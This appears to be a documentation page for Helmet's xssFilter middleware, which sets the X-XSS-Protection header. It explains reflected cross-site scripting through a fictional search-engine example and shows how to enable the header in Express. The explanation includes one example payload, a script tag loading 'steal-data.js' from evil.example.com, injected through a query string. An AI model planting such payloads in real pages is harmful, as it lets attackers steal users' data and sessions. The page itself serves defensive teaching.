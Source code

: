 ```yaml
---
layout: page
title: XSS Filter
permalink: /docs/xss-filter/
---
```

In short: the `xssFilter` middleware sets the `X-XSS-Protection` header to prevent reflected XSS attacks.

The attack
----------

Cross-site scripting, abbreviated to "XSS", is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim's browser. Once a hacker has done that, there's a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

XSS is a multifaceted beast and we won't learn everything about it here. The main takeaway: if someone can run JavaScript on your page, they can attack your users and do a lot of bad things. We want to prevent it!

One kind of XSS is called "Reflected XSS". Typically, it works by setting a query string which is put directly into the HTML. Putting JavaScript in the query string can let an attacker execute their JavaScript just by giving someone a malicious query string.

For example, let's say you run a search engine called Goober. Every time you do a search, it displays your search terms right above your results. For example, let's say we've searched for "javascript jokes".

When you do a search, your search terms also appear in your query string. The full URL might look something like this:

```
https://goober.example.com/search?query=javascript+jokes
```

The search results might look like the screenshot below. Notice how the text appears right on the page:

![Screenshot of normal Goober search](xss-filter-ok.png)

What if we could search for something like `<script src="http://evil.example.com/steal-data.js"></script>`? That URL would look like this:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

And here's how it would appear on your page:

![Screenshot of malicious Goober search](xss-filter-malicious.png)

Suddenly, a malicious JavaScript file was executed just because you visited a URL! That's not good.

Read more:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

The header
----------

To be very clear: *this header does not protect you from XSS attacks much*. It protects against a very particular kind of XSS, and other mitigation measures are far better. This header provides a quick win and basic protection, but this header does not save you from XSS attacks.

It's relatively easy for browsers to detect simple reflected XSS. In the example above, browsers could choose not to execute the JavaScript inside a `<script>` tag if it matches what's in the query string. Some browsers do this detection by default, but some don't. To make these browsers check for this simple case, you can set the `X-XSS-Protection` header to `1; mode=block`.

This tells browsers to detect and block reflected XSS.

This header causes some *even worse* security vulnerabilities in older versions of Internet Explorer, so it's wise to disable it there.

- ["TODO" on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- [TODO](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- [TODO](http://technet.microsoft.com/en-us/security/bulletin/MS10-002)

The code
--------

Helmet's `xssFilter` is a relatively simple middleware that will set the `X-XSS-Protection` header. On most browsers, it will set it to `1; mode=block`. On old Internet Explorer versions, it will set it to `0` to disable it.

You can use this module as part of Helmet:

```javascript
// Make sure you run "npm install helmet" to get the Helmet package.
var helmet = require('helmet')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

You can also use it as a standalone module:

```javascript
// Make sure you run "npm install x-xss-protection" to get this package.
var xssFilter = require('x-xss-protection')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

To force the header to be set to `1; mode=block` on all versions of IE, add the option:

```javascript
app.use(xssFilter({ setOnOldIE: true }))
// This has some security problems for old IE!
```

This header is included in the default Helmet bundle.
